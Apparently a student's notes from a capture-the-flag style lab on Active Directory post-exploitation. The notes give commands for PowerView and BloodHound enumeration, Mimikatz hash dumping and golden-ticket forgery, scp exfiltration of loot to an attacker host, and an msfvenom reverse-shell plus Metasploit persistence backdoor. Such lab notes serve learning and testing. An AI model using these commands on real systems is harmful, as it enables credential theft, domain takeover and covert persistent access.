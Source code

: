 <p> Notes from the Post-Exploitation room where we learn the basics of post-exploitation and maintaining access with mimikatz, bloodhound, powerview and msfvenom,
it includes post-exploitation enumeration with powerview and bloodhound, dumping hashes and golden ticket attacks with mimikatz, basic information gathering using 
windows server tools and logs, the basics of maintaining access with the persistence metaploit module and creating a backdoor into the machine to get an instant meterpreter 
shell if the system is ever shutdown or reset.</p>

<h3>Enumeration w/ Powerview: </h3>
<p><b>Powerview</b> is a powershell tool used to enumerate a on Windows domain after getting a shell </p>
<p>To start Powershell <b>"powershell -ep bypass"</b> <-ep bypass> is used to to bypass PowerShell's ExecutionPolicy restrictions ( the execution policy is part of the security strategy of PowerShell. It determines whether you can load configuration files and run scripts, and it determines which scripts) </p>
<p>Install PowerView on the victim machine and launch it </p>
<p>To enumerate the domain users <b>"Get-NetUser | select cn"</b> cn stands for common name </p>
<p>To enumerate the domain groupes <b>"Get-NetGroup -GroupName *admin*"</b> here we are selecting the groupes that has "Admin" in them</p>
<p>To find shared folders  <b>"Invoke-ShareFinder"</b> </p>
<p>Enumerating the OS  <b>"Get-NetComputer -fulldata | select operatingsystem"</b> </p>

<p>Here is some ressources for powerView/cheat sheets ! </p>
<p>https://powersploit.readthedocs.io/en/latest/Recon/</p>
<p>https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993</p>
<p>https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/</p>
<p>https://www.harmj0y.net/blog/powershell/veil-powerview-a-usage-guide/</p>

<h3>Enumeration w/ Bloodhound: </h3>
<p>Bloodhound is a graphical interface that allows you to visually map out the network, SharpHound (imilar to PowerView) takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.
SharpHound should be installed in the victim's machine in order to collect the informations in the .json file, that file should be sent to our attacker machine and analysed in Bloodhound </p>
<p>To install Bloodhound on your machine <b>apt-get install bloodhound</b> Default credentials are <b>neo4j:neo4j</b></p>
<b> Getting the .json file with Sharphound </b>
<p>1- powershell -ep bypass</p>
<p>2-Run Sharphound</p>
<p>3-Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip </p>   
<p>4-Transfer the loot.zip folder to your Attacker Machine, for that we can use scp (secure copy) which is a tool for  remote file transfer </p>
<p>First set SSH to allow root to access it, by editing /etc/ssh/sshd_config. Change the PermitRootLogin to remove # and put yes at the end</p> 
<p>Now start ssh temporarily:</p> 
<p><b>systemctl start ssh.socket</b></p> 
<p>Now on the victim machine <b> PS C:\Users\Administrator> scp .\20200609093439_loot.zip root@attacker_ip_adrs:/root/loot.zip</b></p> 
<p>Now opne Bloodhound, for the queries we will be using <b>Find all domain admins</b> to find services that are domain admins</p>
<p>And <b>List all kerberoastable accounts </b> to find users that are Kerberoastable</p>
<p>I couldn't explain Kerberoasting better than this acticle, so i highly suggest you read it : https://www.scip.ch/en/?labs.20181011#:~:text=Kerberoasting%20is%20a%20method%20used,used%20to%20crack%20passwords%20offline </p>

<h3>Dumping hashes w/ mimikatz: </h3>
<p>Mimikatz is a post-exploitation tool mainly used for dumping user credentials (NTLM hashes) inside of a active directory network</p>
<p>1-Install Mimikatz on the victim machine</p>
<p>2-Run the Mimikatz binary</p>
<p>3-Run <b>"privilege::debug"</b> and make the it returns <b>"Privilege '20' ok"</b> to ensure that you are running it as an Administrator</p>
<p>4-Run<b> "lsadump::lsa /patch"</b> To dump the hashes</p>
<b>Cracking the hashes with hashcat</b>
<p>Run "hashcat -m --force 1000 <hash> rockyou.txt"</p>

<h3>Golden Ticket Attacks w/ mimikatz :</h3>
<p>A Golden Ticket attack is when an attacker has complete and unrestricted access to an entire domain — all computers, files, folders, and most importantly, the access control system itself.
Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service. The attacker gains control over the domain’s Key Distribution Service account (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGTs) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS).
Because the attacker is controlling the component of the access control system that is responsible for issuing Ticket Granting Tickets (TGTs), then he has the golden ticket to access any resource on the domain.</p>
<p>1-Dump the krbtgt Hash</p>
<p><b>Run Mimikatz</b></p>
<p><b>privilege::debug</b> ensure this outputs [privilege "20" ok]</p>
<p><b>lsadump::lsa /inject /name:krbtgt</b> This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket</p>
<p>Output</p>
<src img="https://i.imgur.com/Yzq71aI.png">
<p>2-Creating the Golden ticket </p>
<b>Run "kerberos::golden /user: /domain: /sid: /krbtgt: /id:" </b>
<p>Where user is Administrator, domain is controller.local (given in the room), sid, krbtgt(put the NTLM hash) and id are given in the previous command</p>
<p>3-Using the Golden ticket to access other machines</p>
<p>Run <b>misc::cmd</b>To start a new command prompt with elevated privileges to all machines on the network</p>

<h3>Enumeration w/ Server Manager:</h3>
<p>We will be usingthe built in windows features such as the server manager for enumeration.If we have Domain adin access, we can change trusts, add or remove users, look at groups,find other users with other sensitive information on their machines or find other users on the domain network with access to other networks in order to pivot to another network and continue  testing.
This can also be a way of easily identifying what kind of firewall the network is using if you have not already enumerated it.</p>
<p>For this part we needto RDP into the machine, in your attacker machine run <b>rdesktop -u SG ip_adrs</b></p>
<p>From this, we mearn that it's not secured to keep passwords of users/accounts in the description ! </p>

<h3>Maintaining Access:</h3>
<p>To maintain access, we will be using Metasploit and Msfvenom, we will setup a Meterpreter shell, and then use the persistant Metasploit module to create a backdoor that will always give us a shell in case the system is shutdown/patched/or reset</p>
<p>1-Generating a Payload w/ msfvenom</p>
<p>To generate a basic Reverse TCP shell for windows, run <b>"msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe"</b><^/p>
<p>Next, we will be transfering the generated payload to the Victim machine, for that we can use scp over ssh </p>
<p>Then, we startup Metasploit and create a listeneer on the Port we set the shell on, by using <b>"use exploit/multi/handler"</b></p>
<p>Now we can run the shell on the target machine. which will give a meterpreter shell in metasploit</p>
<p>To run the persistante module, we need to background our session, then run <b>"use exploit/windows/local/persistence"</b> then  set the session to your background meterpreter session with <b>"set session 1"</b>Then run the exploit</p>
<p>If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler (use multi/handler)load to windows/meterpreter/reverse_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.</p>



